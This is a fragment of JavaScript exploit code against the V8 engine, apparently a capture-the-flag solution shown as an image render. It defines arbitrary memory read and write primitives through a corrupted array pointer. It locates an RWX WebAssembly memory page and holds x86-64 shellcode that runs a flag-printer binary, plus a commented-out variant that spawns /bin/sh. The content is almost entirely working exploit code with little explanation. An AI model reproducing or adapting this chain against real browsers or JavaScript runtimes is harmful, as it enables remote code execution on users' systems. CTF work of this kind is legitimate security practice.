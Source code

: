 ```js
    addr = addr - 0x8n

    // ensure addr is tagged as a pointer
    if (addr % 2n == 0) {
                addr += 1n;
    }

    tmp_arr = t.slice(0)
    // set elem ptr to desired address
    tmp_arr[2] = itof(addr)
    // return value there as a BigInt
    return ftoi(tmp_arr[0])
}

function arb_w(addr, val) { // both as BigInts
    t = [1.1]

    // write is made at addr + 0x8
    addr = addr - 0x8n

    // ensure addr is tagged
    if (addr % 2n == 0) {
                addr += 1n;
    }

    tmp_arr = t.slice(0)
    // set elem ptr to desired address
    tmp_arr[2] = itof(addr)

    // set addr to desired value
    tmp_arr[0] = itof(val)
}

// setup rwx wasm module
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_func = wasm_instance.exports.main;

console.log('[+] wasm instance at 0x' + addrof(wasm_instance).toString(16))


// rwx ptr can be found at wasm_instance+0x68
var addr_to_read = addrof(wasm_instance) + 0x68n;
var rwx = arb_r(addr_to_read)
// this pointer is not compressed, it exists outside the v8 heap
console.log('[+] RWX segment at 0x' + rwx.toString(16))


//https://defuse.ca/online-x86-assembler.htm#disassembly
// execve /chal/flagprinter
var shellcode = [0x48, 0xC7, 0xC0, 0x3B, 0x00, 0x00, 0x00, 0x48, 0x31, 0xF6, 0x48, 0x31, 0xD2, 0x48, 0xC7, 0xC1, 0x72, 0x00, 0x00, 0x00, 0x51, 0x48, 0xB9, 0x61, 0x67, 0x70, 0x72, 0x69, 0x6E, 0x74, 0x65, 0x51, 0x48, 0xB9, 0x2F, 0x63, 0x68, 0x61, 0x6C, 0x2F, 0x66, 0x6C, 0x51, 0x48, 0x89, 0xE7, 0x0F, 0x05]

// execve /bin/sh
//shellcode = [0x48, 0xC7, 0xC0, 0x3B, 0x00, 0x00, 0x00, 0x48, 0x31, 0xF6, 0x48, 0x31, 0xD2, 0x48, 0xB9, 0x2F, 0x62, 0x69, 0x6E, 0x2F, 0x73, 0x68, 0x00, 0x51, 0x48, 0x89, 0xE7, 0x0F, 0x05]

```